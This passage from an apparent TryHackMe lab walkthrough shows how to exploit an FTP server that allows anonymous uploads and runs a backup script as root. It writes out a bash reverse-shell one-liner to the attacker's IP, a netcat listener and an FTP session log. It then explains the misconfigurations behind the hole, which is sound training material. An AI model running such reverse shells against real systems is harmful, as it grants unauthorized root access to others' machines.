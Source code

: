 9.6.1. Let's use [pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) to get a good command that will be executed by the server to
generate a shell to our AttackBox, replacing the IP_ADDRESS with your TryHackMe IP, this address is displayed on the navigation bar on the [Access page](https://tryhackme.com/access).

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img6.png)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

9.6.2. Let's set up a `netcat` listener to catch the connection on our AttackBox: `nc -lvnp 4444`

9.6.3. We'll now attempt to upload our malicious script to the folder that we have write permissions on the FTP server by returning to our FTP prompt
and using put to `put` the file into that directory (ensuring it is your current directory).

9.6.4. Return to our `netcat` listener, after waiting one minute, you should see an output like below! Success! We have a reverse system shell on the FTP Server as the most powerful user. Any commands you now use will execute on the FTP server's system.

![](https://assets.tryhackme.com/additional/cmn-aoc2020/day-10/img9.png)

Proceed to use commands similar to what we have used before to find the contents of root.txt located in the root directory! Let's break down exactly what happened here and explain the reasons as why this exploit happened:

9.6.5.1. The FTP Server has anonymous mode enabled allowing us to authenticate. This isn't inherently
insecure and has many legitimate uses.

9.6.5.2. We've discovered that we have permission to upload and download files. Whilst is also normal behaviour for FTP servers, anonymous users should not be able to upload files.

9.6.5.3. We've interpreted the information from a legitimate backup script to create a reverse shell onto our host.

9.6.5.4. The script executes as the "root" user - the most powerful on a Linux system. This is also a vulnerability, as now we have full access to the system. The use of this user should be restricted wherever possible. If the script were to execute as "elfmceager", we'd only have access to the system as that user (a much less powerful one in comparison)

**9.7. Conclusion, where to go from here and additional Material:**

We've covered the fundamentals of FTP servers and why they're still used today. Not only this, but
we've also learned how simple misconfigurations can lead to a full-blown hack on an FTP Server. If you're keen to learn more, the [Network Services](https://tryhackme.com/room/networkservices) walkthrough room (created by [Polomints](https://tryhackme.com/p/PoloMints)) also covers FTP. If you wish to sharpen your skills,
you may find the "[Anonymous](https://tryhackme.com/room/anonymous)" Challenge room (created by [Nameless0ne](https://tryhackme.com/p/Nameless0ne)) a fun dojo.

Question #1: Name the directory on the FTP server that has data accessible by the "anonymous" user

```bash
root@ip-10-10-235-185:~# ftp 10.10.254.237
Connected to 10.10.254.237.
220 Welcome to the TBFC FTP Server!.
Name (10.10.254.237:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 backups
drwxr-xr-x    2 0        0            4096 Nov 16 15:05 elf_workshops
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 human_resources
drwxrwxrwx    2 65534    65534        4096 Nov 16 19:35 public
226 Directory send OK.
```